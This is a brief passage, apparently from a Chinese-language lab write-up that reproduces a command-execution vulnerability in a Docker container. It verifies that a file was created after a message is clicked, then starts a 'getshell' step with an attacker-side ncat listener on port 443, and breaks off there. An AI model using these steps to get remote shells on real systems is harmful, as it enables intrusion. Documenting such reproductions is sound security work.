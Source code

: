 验证

```
docker ps
docker exec 64e053330794 ls /tmp
```

![image-20250408183640402](./assets/image-20250408183640402.png)发现tmp目录下为空，即我们没有成功创建success文件



因为我们并没有点击该消息触发命令

点击消息触发命令

![image-20250408183723033](./assets/image-20250408183723033.png)



重新验证

```
docker exec 64e053330794 ls /tmp
```

![image-20250408183728550](./assets/image-20250408183728550.png)

命令执行成功



尝试getshell

```
攻击机开启监听：
	ncat -lvp 443
```
